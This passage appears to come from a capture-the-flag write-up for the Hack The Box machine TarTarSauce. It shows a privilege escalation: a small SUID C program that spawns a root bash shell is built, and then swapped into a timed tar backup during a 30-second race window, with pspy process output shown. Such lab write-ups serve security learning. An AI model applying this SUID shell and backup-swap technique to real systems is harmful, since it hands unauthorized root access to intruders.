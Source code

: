 So What we need to do is, We need to change the .ffegsigiisifghis file with our payload within the 30 seconds and after 30seconds it will extract it and Integrity checks happen, so it will different and it left those file there for the next 5mins. 

Since the machine is 32bit, I made a C program and compiled it with 32bit. And make it SUID.

```bash
#include <unistd.h>
int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Created  `var/www/html` folder and put my file inside.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tartarsauce/Untitled%2012.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tartarsauce/Untitled%2012.png)

Opened Pspy in one terminal and waiting for the first hit. And here it takes the backup and stored it in `/var/tmp`

```bash
2020/07/13 23:46:43 CMD: UID=1000 PID=2738   | /bin/tar -zcvf /var/tmp/.f7b56259dddf91387805c988a567e7b2c594024d /var/www/html 
2020/07/13 23:46:43 CMD: UID=1000 PID=2737   | /bin/tar -zcvf /var/tmp/.f7b56259dddf91387805c988a567e7b2c594024d /var/www/html
```

I just Copy my payload (pwn) and replace it with the one it created.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tartarsauce/Untitled%2013.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-tartarsauce/Untitled%2013.png)
